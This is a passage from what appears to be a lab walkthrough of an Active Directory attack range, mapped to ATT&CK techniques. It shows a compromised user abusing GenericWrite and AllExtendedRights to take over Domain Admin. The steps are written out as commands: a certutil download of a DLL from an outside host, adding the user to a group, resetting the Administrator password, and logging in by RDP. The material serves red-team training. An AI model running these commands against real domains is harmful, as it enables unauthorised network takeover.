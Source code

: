 We can see that our compromised user is a member of `ServerAdmins` group which has `GenericWrite` permissions over the `ITSupport` group which in turn has `AllExtendedRights` over `Administrator` who is Domain Admin.

### AD Privilege Escalation

Let's go back to our compromised system with a compromised AD user and follow that privilege escalation path to become become Domain Admin.

In order to convienently run Active Directory commands, let's import Active Directory PowerShell module.
Usually it comes with RSAT AD tools, but we can also get it directly from the Microsoft DLL. Let's download it with `certutil` and import it

**Step 16**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/PowerShellActiveDirectory.dll C:\Temp\a.dll
[ITSERVER:PowerShell] Import-Module C:\Temp\a.dll
```
ATT&CK Techniques: `T1105`

`GenericWrite` persmissions that we have on our compormised account mean that we can add ourselves to the `ITSupport` group. Let's do that!

**Step 17**
```PowerShell
[ITSERVER:PowerShell] Add-ADGroupMember -Identity "ITSupport" -Members "billh"
```
ATT&CK Techniques: `T1098.007`

Great! We now have `AllExtendedRights` over all other users including domain administrator. This means that we can set its password which is exactly what we are going to do.

You will need to close the current PowerShell window and open it again from `mimikatz` to make sure the new group membership is activated. Don't forget to also re-import `a.dll`. After that, let's reset domain administrator's password.

**Step 18**
```PowerShell
[ITSERVER:PowerShell] Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset
```
ATT&CK Techniques: `T1098`


Done! We changed the password of the Domain Admin to the one of our choice and have compromised the domain.

With Domain Admin privileges we can now finally log into the 3rd server.

**Step 19**
```bash
[KALI:bash] xfreerdp3 /u:Administrator /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert:ignore +clipboard
```
ATT&CK Techniques: `T1021.001` `T1078`
